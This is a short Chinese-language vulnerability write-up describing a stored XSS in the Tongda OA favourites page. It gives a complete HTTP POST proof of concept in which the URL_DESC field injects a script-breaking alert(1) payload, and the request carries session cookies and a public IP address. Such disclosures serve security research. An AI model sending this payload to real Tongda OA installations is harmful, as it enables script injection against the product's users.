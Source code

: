 # TONGDA OFFICE Anywhere 10.20.200417-store xss

## 漏洞描述

通达OA 控制面板 页面收藏夹处存在存储型xss漏洞

## 复现步骤

### 步骤1

提交poc

```
POST /general/person_info/fav/add.php HTTP/1.1
Host: 127.0.0.1:88
Content-Length: 87
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://211.138.191.187:88
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://211.138.191.187:88/general/person_info/fav/index.php?IS_MAIN=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SID_1=9cdfdedc; SID_4002=fd08b4a7; USER_NAME_COOKIE=%C0%EE%D3%C2; OA_USER_ID=3795; PHPSESSID=r4pki3jd1etr9bpbfd7o6uivo5; SID_3795=b8a99e8d
Connection: close

URL_NO=1&URL_DESC=cyberlab"]%3balert(1)//&URL=http%3A%2F%2Ftest.com&button=%CC%ED%BC%D3
```



### 步骤2

访问主页面，漏洞触发:

![image](https://github.com/jqz41401/jqzCVE/blob/master/img/tongda_xss.jpg)

